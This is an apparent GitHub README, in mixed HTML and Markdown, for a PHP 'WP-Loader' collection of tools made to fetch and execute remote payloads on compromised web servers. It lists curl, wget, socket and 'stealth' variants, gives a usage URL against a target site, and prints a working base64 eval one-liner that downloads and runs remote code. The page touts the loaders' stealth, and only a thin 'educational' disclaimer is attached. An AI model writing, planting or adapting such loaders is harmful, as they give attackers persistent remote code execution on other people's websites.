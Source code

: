 <!DOCTYPE html>
<html lang="en">
</head>
<body>

  <h1>🌀 WP-Loader Collection — Universal PHP Loaders</h1>
  <p><strong>🔥 Universal PHP loader collection</strong> created by 
    <a href="https://github.com/6ickzone" target="_blank">0x6ick</a>.  
    This repository contains different types of loaders (multi-mode, one-liner, stealth) designed to fetch and execute remote payloads.</p>

  <p><strong>⚠️ Disclaimer:</strong> This tool is provided for educational and research purposes only.  
  Any misuse or illegal activity is not the responsibility of the author.</p>

  <hr>

  <div class="section">
    <h2>📂 Repository Structure</h2>
    <pre><code>/loader/wp-loader.php    # Main multi-mode loader panel
/loader/b64loader.php           # One-liner base64 loader
/loader/loadman.php             # Stealth loader (cURL + file_get_contents) with Mandarin variables
</code></pre>
  </div>

  <div class="section">
    <h2>✨ Available Loaders</h2>

    ### 1. wp-loader.php

**Multi-mode loader panel** with the following modes:

-   `curl` → Loader using cURL
-   `curlman` → Refactored curl loader
-   `tmp` → Temporary file-based loader
-   `cache` → Loader with cache mechanism
-   `curlv2` → Alternative curl loader
-   `wget` → wget/curl + include method
-   `socket` → Raw socket GET loader
-   `telegram` → Author contact info

**Usage:**
    http://target.com/wp-loader.php?mode=curl

    ### 2. b64loader.php

**One-liner base64 loader**

-   Decodes a URL from base64 → fetches → executes via eval
-   Extremely short and stealthy

**Example snippet:**

```php
<?= @eval("?>".file_get_contents(base64_decode("..."))); ?>
'

     ### 3. loadman.php

**Stealth loader with Mandarin style**

- Function and variable names in Chinese characters (汉字)
- Flow: `cURL` → fallback to `file_get_contents` → `eval`
- Error output: "加载失败 (Failed to load)"

**Usage:**

  <hr>

  <div class="section">
    <h2>📜 License</h2>
    <p><a href="http://www.wtfpl.net" target="_blank">WTFPL v2</a></p>
    <pre><code>DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
Version 2, December 2004</code></pre>
  </div>

  <div class="section">
    <h2>👤 Author</h2>
    <ul>
      <li><strong>0x6ick (a.k.a 6ickzone)</strong></li>
      <li>Telegram: <a href="https://t.me/Yungx6ick" target="_blank">@Yungx6ick</a></li>
    </ul>
  </div>

</body>
</html>
